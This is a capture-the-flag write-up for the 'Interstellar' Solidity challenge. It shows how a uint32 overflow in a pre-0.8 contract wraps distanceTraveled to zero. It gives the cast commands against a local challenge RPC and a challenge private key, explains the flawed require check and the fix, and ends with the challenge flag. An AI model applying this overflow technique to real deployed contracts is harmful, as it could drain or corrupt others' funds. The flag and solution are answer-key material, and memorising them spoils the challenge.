 # Interstellar Write-up
## TL;DR
If you have noticed, the Solidity version used in this challenge is different than the other challenges, that's because Solidity versions < 0.8 had an infamous flaw in which an attacker could overflow (or underflow) `uint` variables to make it return to 0 (or to the maximum possible value in the case of underflow).
The goal of this challenge is to exploit an Integer Overflow vulnerability to set the `distanceTravled` attribute to 0.

## Solving the challenge
- `distanceTraveled` is `uint32` (4 bytes), and the largest number that we can represent with this number of bytes is `2^32 - 1 = 4294967295`
- `distanceTraveled` is initialized to `1337` , which means we need to add exactly `4294967295 - 1337 + 1 = 4294965959` in order to make it return to 0.

#### As usual, get the target address:
```bash
$cast call 0xEcf48fF5aA114A3636564Ea33E09748007f88159 "TARGET()" --rpc-url http://localhost:8545/907be6fc-c3e1-4582-9c13-a50b48af1246
0x000000000000000000000000ff57a663537c1bc2b544bf44c57e9dcc04713f0c
```
#### Call galacticBoost() with 4294965959:
```bash
$cast send 0xff57a663537c1bc2b544bf44c57e9dcc04713f0c "galacticBoost(uint32)" 4294965959 --rpc-url http://localhost:8545/907be6fc-c3e1-4582-9c13-a50b48af1246 --private-key 0xa35f722c76d175330a78708e4410d9e4ed8bf9e745e3fd7a1049d7d5883f6975
```
If you call `getDistanceTraveled()` now , you'll see that it's 0:
```bash
$cast call 0xff57a663537c1bc2b544bf44c57e9dcc04713f0c "getDistanceTraveled()" --rpc-url http://localhost:8545/907be6fc-c3e1-4582-9c13-a50b48af1246
0x0000000000000000000000000000000000000000000000000000000000000000
```
You're ready now to get the flag.

### Note:
The check used in the `SpaceShip` contract to prevent integer overflows is insecure: 
```solidity
require(distanceTraveled + advanceWithDistance < distanceFromTheBlackHole);
```
If we add a value that will overflow the `distanceTraveled` variable, `distanceTraveled + advanceWithDistance` will return a value smaller than `distanceFromTheBlackHole` anyways (`distanceFromTheBlackHole` is the maximum valur for uint32), and the require statement will pass.
To fix integer overflows/underflows in Solidity < 0.8 you need to use the SafeMath library from Openzeppelin, but the most effective way remains updating your Solidity version to > 0.8 as the compiler handles it automatically.
## Flag
`shellmates{1nt3g3R_0v3rfl0o0W_1s_4_Bl0o0o0cKk_H0o0l3}`

